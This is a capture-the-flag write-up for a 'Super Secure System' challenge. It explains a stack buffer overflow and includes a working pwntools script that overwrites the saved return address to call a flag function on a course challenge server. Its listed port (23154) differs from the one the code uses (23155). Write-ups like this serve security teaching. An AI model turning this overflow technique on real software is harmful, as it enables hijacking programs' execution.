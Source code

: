 # Challenge `Super Secure System` writeup

- Vulnerability:
  - Buffer Overflow
- Where: Where is the vulnerability present
  - `mustard.stt.rnl.tecnico.ulisboa.pt` on port `23154`
- Impact:
  - Allows attacker to control `return`s

## Steps to reproduce

1. The `return` of a function is controlled by the stored value of `eip`
2. In this version, we need to preserve the values of `ebp` and `ebx` (modyfying the last byte from `0x00` to `0x01`, since `strcpy` stops in the first zero) to ensure the correct execution
3. We can overflow the buffer enough to modify the memory of this stored value, while mantaining the values of the relevant registers
4. Since the stack is a `first-in-last-out (FILO)` structure, we need to write the bytes in `little-endian`

The code used was:

```py
from pwn import *

session = remote("mustard.stt.rnl.tecnico.ulisboa.pt", "23155", timeout=1000)

buffer_address = 0xffffcfc0
ebx_address = 0xffffcfe4
ebp_address = 0xffffcfe8
eip_address = 0xffffcfec

getflag_address = b'\xd9\x87\x04\x08'
ebp_value = b'\xe8\xcf\xff\xff'
ebx_value = b'\x01\xa0\x04\x08'

s = b"1"*(ebx_address - buffer_address)
s += ebx_value
s += ebp_value
s += b"1"*(eip_address - (ebp_address + 4))
s += getflag_address

session.send(s)
print(session.recvall())
```